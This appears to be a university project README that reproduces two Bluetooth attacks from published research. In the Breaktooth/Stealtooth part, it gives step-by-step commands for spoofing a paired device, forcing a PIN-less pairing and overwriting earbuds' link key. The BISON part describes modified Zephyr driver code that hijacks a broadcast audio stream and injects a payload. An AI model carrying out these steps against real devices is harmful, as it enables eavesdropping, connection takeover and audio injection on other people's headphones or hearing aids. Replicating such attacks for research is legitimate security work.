

# Introduction

During our initial research we quickly figured out that we wanted to do something related to bluetooth. Bluetooth audio is extremely commonly used nowadays (headphones, speakers, cars), and we want to see if modern, encrypted devices are vulnerable to Man-in-theMiddle (MitM) attacks. In particular, we want to intercept the connection between a phone and headphones to eavesdrop on the audio or inject our own.

For this, we found multiple papers that described different attack scenarios. In particular, 2 attacks stood out, Stealtooth and BISON, which will be described below.

There are 2 branches, main and mallory. Changes in main are only for debugging and flashing to the devices in order to replicate a real scenario. In mallory, the low-level Bluetooth driver code was changed so as to allow the BISON attack. 

# Stealtooth

## Theory

Paper that introduces and explains Stealtooth: https://arxiv.org/pdf/2507.00847. Stealtooth builds on top of [Breaktooth](https://eprint.iacr.org/2024/900.pdf), which source code can be downloaded on [breaktooth.github.io](https://breaktooth.github.io/).

Breaktooth exploits a vulnerability in the power savings implementation. Using this exploit, the bluetooth device accept the attacker's link key without requiring any manual user confirmation. This key then which overwrites the real link key silently, allowing to take over the connection.

TODO: further explanation how it works

Stealtooth then builds on top of Breaktooth to perform a MitM attack. After overwriting the link key and connecting to both A and B (using Breaktooth), the attacker can pass through audio from A to B whilst at the same time eavesdropping or injecting audio, without the victim being aware of the compromised connection.

## Implementation

To show the attack, we are using a raspberry pi 3B (Mallory) and perform the attack on a linux computer (Alice) that is paired/connected to Redmi Buds 6 Pro (Bob).

After connecting Alice with Bob (in our case, we open the case but leave the earbuds in the case), we can set them aside and connect to the pi.

The first step is to find the MAC addresses and device names:

```
sudo rfkill unblock bluetooth # was soft blocked after first install

sudo systemctl start bluetooth
sudo bluetoothctl
[bluetoothctl]> power on
[bluetoothctl]> scan on
# [NEW] Device <MAC_B> Redmi Buds 6 Pro
# [NEW] Device <MAC_A> <NAME_A>
[bluetoothctl]> scan off
[bluetoothctl]> exit
```

### Breaktooth

Once we have obtained the MAC addresses and names, we can start using the Breaktooth tool. We have slightly modified this tool as the original source code does not work (anymore). You can find the updated code in the `breaktooth` directory.

TODO: explain changes made

Switch to the root user using `sudo su` and install depenencies using:
```
make install/deps
```

Next, we start our attack by preparing it with the correct MAC and device name

```
go # if you get "command not found", exit and sudo su again (`$PATH` needs to be updated after installing the deps)
source venv/bin/activate
make setup/device MAC=<MAC_A> NAME="<NAME_A>" TARGET=<MAC_B> # spoof the phone/laptop (A) and get a connection with the buds (B)
```

After that we need to make sure we are in NoInputNoOutput mode. This indicates that we have no capability for user input or output during the pairing/connection process. As a result, the device we are trying to hack will not ask for a pairing PIN.
```
bluetoothctl
[bluetoothctl]> agent off
[bluetoothctl]> agent NoInputNoOutput
[bluetoothctl]> default-agent
```

Lastly, we can perform our breaktooth attack by running
```
make breaktooth
```

This will continously check the connection status between A and B. Once Alice disconnects, which can be "forced" using for example `sudo btmgmt power off` (on Alice), the script will automatically try to connect to Bob. If we did the setup/device the other way around, so we are spoofing the buds, we can disconnect by simply closing the lid.

To show that the connection works, we can run `bluetoothctl info <MAC_B>` on the pi and see that Connected is true. In addition, when trying to re-connect Alice with Bob we get `org.bluez.Error.Failed br-connection-key-missing`, which indicates we have overwritten the key successfully. Lastly, we can also play sound (from user `pi`) using the following steps:

```
# from pi user:
sudo apt install -y pulseaudio pulseaudio-module-bluetooth
pulseaudio --start
pactl list cards short # gives bluez_card.MAC, if not disconnect and connect again with bluetoothctl
pactl get-default-sink # should be bluez_sink...
pactl set-sink-volume @DEFAULT_SINK@ 100%
paplay /usr/share/sounds/alsa/Front_Center.wav
```

### Stealtooth

As mentioned before, Stealtooth will perform this Breaktooth attack above to hijack a connection to the phone/laptop (A) at the same time as hijacking the connection to the buds (B). Unfortunately we were not able to re-produce this attack, and hence, were not able to create a full MiTM attack, due to TODO. We were able to successfully hijack the connection to the buds and play audio, and even after disconnecting the pi the laptop/phone could no longer connect to the buds again because we over-write the link key.

TODO: explain a bit more?


# BISON

Paper that introduces and explains BISON: https://www.carloalbertoboano.com/documents/gasteiger23bison.pdf

Works using 3 bluetooth development boards, 2 of them being Alice and Bob doing some exchange, and the last one being mallory/the attacker device.

Bison specifically targets newer versions of the Bluetooth Low Energy (BLE) feature known as Broadcast Isochronous Streams (BIS). Updates in this feature enable audio broadcast from a single source to an unlimited amount of receivers. The metadata that is used to synchronize with the stream is transmitted in plaintex instead of being encrypted. This opens a vulnerability for an attacker to exploit. Further vulnerabilities are present in the encryption key exchange. Attackers can inject audio to play practical jokes at places like silent discos or cause bigger issues by targeting public information systems or hearing aids.

By abusing these weaknesses and manipulating the BLE Channel Map Update procedure, BISON allows an attacker to hijack an ongoing broadcast session. The legitimate source is desynchronized by the attacker, who can take over the stream and impersonate the transmitter. This way, the attacker can modify the broadcast payload live or even inject any audio content. It is also important to note that the integrity and authenticity of the stream is broken here using standard off-the-shelf hardware.

IMPLEMENTATION NOTES:
The work we have done for our implementation of the attack is not simple a clone of BISON's code. That was roughly 3 years old and did not match the latest state of zephyr, so we worked on our implementation from scratch while taking inspiration from the BISON paper.

1. USB Initialization for Debugging: The main.c file (samples\bluetooth\iso_receive\src\main.c) was updated to include initialization for the USB device and a polling loop to wait for the UART Data Terminal Ready (DTR) signal. With this, the application only proceeds once the serial terminal (Minicom) is connected and ready to receive output. 

2. Mallory's Critical Driver Change: A successful BISON attack requires low-level control over the Bluetooth Link Layer (LLL). To enable the attack, modifications were made in the Zephyr LLL driver file lll_sync_iso.c (mallory branch). These changes introduce global variables (like packets_unil_attack_start and evil_counter_val = 666) and custom functions (isr_spoofed_iso_done, isr_spoofed_iso_ctrl_subevent_done) to:
    - Inject a malicious control PDU (PDU_BIG_CTRL_TYPE_CHAN_MAP_IND) at a specific time
    - Immediately follow this control PDU with a spoofed data payload (the value 666) 
    - This injection forces Bob (receiver) to accept Mallory's manipulated Channel Map, effectively hijacking Bob's stream and breaking synchronization with Alice

3. Alice/Bob Debugging Changes (main.c): The main.c files for Alice (broadcaster) and Bob (receiver) contain necessary modifications for debugging and visualization on the embedded hardware. These changes include:
    - Payload Validation: The receiver code (iso_recv function) can detect and print the injected payload: if (count == 666) { printk("\n\n PAYLOAD INJECTED!!! (666)\n\n"); }. This shows the presence of a successful BIS hijack.

4. Demonstration Output: In a real audio stream, Alice would transmit consecutive audio packets. Our demo replaces this with a simple counter where Alice sends incrementing numbers. Mallory executes the BISON attack, takes over the stream, and injects the payload 666. The successful attack is verified when Bob's Minicom terminal, which was previously showing a stable stream of counter values from Alice, switches to printing the injected 666 packets.

Demo Image:


The image above displays the terminal of Bob, who is the legitimate receiver of Alice's broadcast in this case. Bob is receiving a stream of incrementing numbers (92110-92118 in the image), which is interrupted by a successful BISON attack. The attacker injects a payload containing '666', which confirms the BIS hijack.

## Setup steps

Assumed hardware: 3x ProMicro nRF52840 (alice, bob, mallory)

Below instructions are tested on Ubuntu 24.04 with Python 3.12

1. Install required packages:
    ```bash
    sudo apt install --no-install-recommends git cmake ninja-build gperf   ccache dfu-util device-tree-compiler wget   python3-dev python3-pip python3-setuptools python3-tk python3-wheel xz-utils file make gcc gcc-multilib g++-multilib libsdl2-dev libmagic1
    ```
2. Download and install JLink: https://www.segger.com/downloads/jlink/JLink_Linux_x86_64.deb
3. Initialize Zephyr workspace:
    ```bash
    mkdir ~/zephyr
    cd ~/zephyr
    git clone https://github.com/Robin-Sch/2IC80.git
    west init -l 2IC80
    cd 2IC80
    west update
    ```
4. Create python virtual environment, install `west` and required python packages:
    ```bash
    python3.12 -m venv ~/zephyr/venv
    source ~/zephyr/venv/bin/activate
    pip install -U west
    pip install -r ~/zephyrproject/scripts/requirements.txt
5. Build and flash Alice and Bob:
    ```bash
    cd ~/zephyr/2IC80/samples/bluetooth/iso_broadcast # Alice
    west build -p -b promicro_nrf52840
    # Connect Alice ProMicro via USB and turn it into setup mode by shorting RST and GND pins twice quickly
    fdisk -l # check which /dev/sdX is the ProMicro
    mount /dev/sdX /mnt
    cp build/zephyr/zephyr.uf2 /mnt && sync # Device will reboot automatically

    cd ~/zephyr/2IC80/samples/bluetooth/iso_receive # Bob
    # repat the steps for Bob
    ```
6. Open Minicom to see the output from Bob:
    ```bash
    git checkout mallory # switch to Mallory branch (necessary because fof BT driver changes)
    cd ~/zephyr/2IC80/samples/bluetooth/iso_receive # Mallory is based on Bob's code
    # repeat build and flash steps for Mallory (from step 5)
    ```
7. Connect Alice and Bob via USB:
    ```bash
    # Connect Alice
    dmesg | grep ttyACM # check which /dev/ttyACMX is Alice
    minicom -D /dev/ttyACMX -b 115200
    # In another terminal, connect Bob
    dmesg | grep ttyACM # check which /dev/ttyACMY is Bob
    minicom -D /dev/ttyACMY -b 115200
    # You should see output on Bob's terminal showing received ISO packets and being in sync with Alice's output
    ```
8. Connect Mallory via USB and observe the output:
    ```bash
    # Connect Mallory
    dmesg | grep ttyACM # check which /dev/ttyACMZ is Mallory
    minicom -D /dev/ttyACMZ -b 115200
    ```
9. Bring Mallory slightly closer to Bob and move Alice away. Observe how Bob starts printing 666 indicating payload injection due to Mallory's attack.
